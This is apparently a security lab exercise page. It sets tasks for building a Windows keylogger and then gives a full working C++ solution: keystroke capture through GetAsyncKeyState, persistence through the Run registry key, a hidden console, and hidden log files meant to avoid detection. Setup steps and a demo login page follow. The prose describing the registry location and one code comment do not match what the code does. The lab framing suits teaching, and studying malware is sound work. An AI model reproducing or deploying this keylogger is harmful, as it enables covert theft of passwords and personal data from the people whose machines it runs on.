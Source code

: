 # Write A Standalone Keylogger
A keylogger is a type of malware used in cyberattacks to steal sensitive information by recording keystrokes on a victim's computer. Often installed covertly through phishing emails, it captures login credentials and personal data for attackers to misuse


## References
- [Keystroke Logging](https://en.wikipedia.org/wiki/Keystroke_logging) by Wikipedia
- [GetAsyncKeyState](https://docs.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-getasynckeystate) by Microsoft
- [Keylogger](https://github.com/shubhangi-singh21/Keylogger) by shubhangi-singh21 on GitHub


## Tasks
- Setup a Windows VM
- Write a custom keylogger program with the following capabilities
  - The program starts executing when the system boots
  - The program runs as a background process without affecting any foreground processes
  - The program logs all user keystrokes in hidden files on the same disk
  - The program must use minimal resources to avoid detection
- Keylogger Creation Guidelines
  - You can use Windows APIs in your program
  - Use a programming language of your choice
  - Compile the program into a binary for deployment
- Deploy the keylogger binary in your VM
- Configure the keylogger to execute when the system starts
- Open a web browser and input a fictional username and password into a login form


## Benchmarks
- Validate that your keylogger starts at system boot time
- Validate that your keylogger records all keystrokes in hidden files
- Validate that your keylogger runs as a background process (you can view the active process listing in 'Task Manager')


## Solutions With Scripts
1. Save the following C++ program and compile it into a binary file called `keylogger.exe` to be used in a Windows 10 VM
   ```
    #include <iostream>
    #include <windows.h>
    #include <ctime>      // For timestamp
    #include <sstream>    // For constructing filename
    #include <fstream>    // For file operations
    #include <string>     // For string manipulation
    
    using namespace std;
    
    void AddToStartup() {
        // Get the current executable path using the wide-character version of GetModuleFileName
        wchar_t filePath[MAX_PATH];
        GetModuleFileNameW(NULL, filePath, MAX_PATH);  // Get the path of the current executable
    
        HKEY hKey;
        // Create or open the registry key for startup (HKEY_CURRENT_USER means it will only affect the current user)
        LONG createStatus = RegCreateKeyW(HKEY_CURRENT_USER, L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", &hKey);
    
        if (createStatus == ERROR_SUCCESS) {
            // Set the registry value to add the executable to the startup list
            LONG status = RegSetValueExW(hKey, L"MyKeylogger", 0, REG_SZ, (BYTE*)filePath, (wcslen(filePath) + 1) * sizeof(wchar_t));
            
            if (status == ERROR_SUCCESS) {
                cout << "Keylogger successfully added to startup!" << endl;
            } else {
                cerr << "Error setting registry value!" << endl;
            }
    
            // Close the registry key handle
            RegCloseKey(hKey);
        } else {
            cerr << "Error creating/opening registry key!" << endl;
        }
    }
    
    string CreateDynamicLogFile() {
        // Generate a dynamic file name based on timestamp
        time_t now = time(NULL);
        struct tm* localTime = localtime(&now);
    
        stringstream filename;
        filename << "log_"
                 << localTime->tm_year + 1900 << "_"
                 << (localTime->tm_mon + 1) << "_"
                 << localTime->tm_mday << "_"
                 << localTime->tm_hour << "_"
                 << localTime->tm_min << "_"
                 << localTime->tm_sec << ".txt"; // Second
    
        return filename.str();
    }
    
    void HideLogFile(const string& filename) {
        DWORD attributes = GetFileAttributes(filename.c_str());
        if (attributes == INVALID_FILE_ATTRIBUTES) {
            cerr << "Error getting file attributes for " << filename << endl;
            return;
        }
    
        // Set file attributes to hidden
        if (SetFileAttributes(filename.c_str(), attributes | FILE_ATTRIBUTE_HIDDEN)) {
            cout << "Successfully set file to hidden: " << filename << endl;
        } else {
            cerr << "Failed to set file to hidden: " << filename << endl;
        }
    }
    
    int Save(int _key, const char* file) {
        ofstream OUTPUT_FILE(file, ios::app);
        if (!OUTPUT_FILE.is_open()) {
            cerr << "Error opening file!" << endl;
            return -1;
        }
    
        // Save key inputs to file
        switch (_key) {
            case VK_SHIFT: OUTPUT_FILE << "[SHIFT]"; break;
            case VK_BACK: OUTPUT_FILE << "[BACKSPACE]"; break;
            case VK_LBUTTON: OUTPUT_FILE << "[L_CLICK]"; break;
            case VK_RBUTTON: OUTPUT_FILE << "[R_CLICK]"; break;
            case VK_RETURN: OUTPUT_FILE << "[ENTER]"; break;
            case VK_TAB: OUTPUT_FILE << "[TAB]"; break;
            case VK_ESCAPE: OUTPUT_FILE << "[ESCAPE]"; break;
            case VK_CONTROL: OUTPUT_FILE << "[CTRL]"; break;
            case VK_MENU: OUTPUT_FILE << "[ALT]"; break;
            case VK_CAPITAL: OUTPUT_FILE << "[CAPS LOCK]"; break;
            case VK_SPACE: OUTPUT_FILE << "[SPACE]"; break;
            default: OUTPUT_FILE << (char)_key;
        }
    
        OUTPUT_FILE.close();
        HideLogFile(file);
    
        return 0;
    }
    
    int main() {
        // Hide the console window
        FreeConsole();
    
        // Copy the executable to the Startup folder (ensures persistence)
        AddToStartup(); // Using the updated AddToStartup function
    
        // Create and hide the log file
        string logFilename = CreateDynamicLogFile();
        cout << "Log file created: " << logFilename << endl;
    
        ofstream logFile(logFilename.c_str());
        if (logFile.is_open()) {
            logFile.close();
        } else {
            cerr << "Error creating log file!" << endl;
            return -1;
        }
    
        HideLogFile(logFilename);
    
        char i;
        while (true) {
            Sleep(10); // Reduce CPU usage
            for (i = 8; i <= 255; i++) {
                if (GetAsyncKeyState(i) == -32767) {
                    Save(i, logFilename.c_str()); // Save key presses to the log file
                }
            }
        }
    
        return 0;
    }
   ```
2. Save the following HTML file as `login.html` for the purpose of inputting a fictional username and password in the login form
   ```
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Demo Login Page</title>
    </head>
    <body>
        <h1>Login</h1>
        <form>
            <label for="username">Username:</label><br>
            <input type="text" id="username" name="username"><br><br>
            <label for="password">Password:</label><br>
            <input type="password" id="password" name="password"><br><br>
            <button type="submit">Login</button>
        </form>
    </body>
    </html>
   ```
3. Execute `keylogger.exe` with admin privileges. It will now run as a process in the Task Manager
   ![image](https://github.com/user-attachments/assets/831ccbab-c58a-46ba-b90d-09afd2b7fd5f)

5. Reboot the Windows 10 VM. Since the keylogger executable creates an entry in the registry at `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`, it will autorun at startup
   ![image](https://github.com/user-attachments/assets/9dc68225-187c-4afe-a4d8-dc935422cc7a)
   This can also be found in the Startup tab in Task Manager. Note that multiple registry entries in different registry locations will create multiple startup instances <br/>
   ![image](https://github.com/user-attachments/assets/1a3117e6-17b0-4727-bc1c-583ef2b79968)
   <br/>
   If rebooting the VM does not cause the keylogger to autorun on startup, a manual fix is to press `Win + R` key, and enter `shell:startup`. This will bring you to the folder that stores programs to run on startup. Create a shortcut of `keylogger.exe` and save it here
   ![image](https://github.com/user-attachments/assets/e55bf18f-e6b2-4b26-bbd2-d00a8888b556)
7. Open `login.html` in a web browser. Show that the keylogger records all keystrokes in hidden files
   ![image](https://github.com/user-attachments/assets/265cc2bb-eb34-4b51-b37f-e6c792f2c447)
   ![image](https://github.com/user-attachments/assets/08b3b759-fb9a-4375-b011-94c30f203111)


   
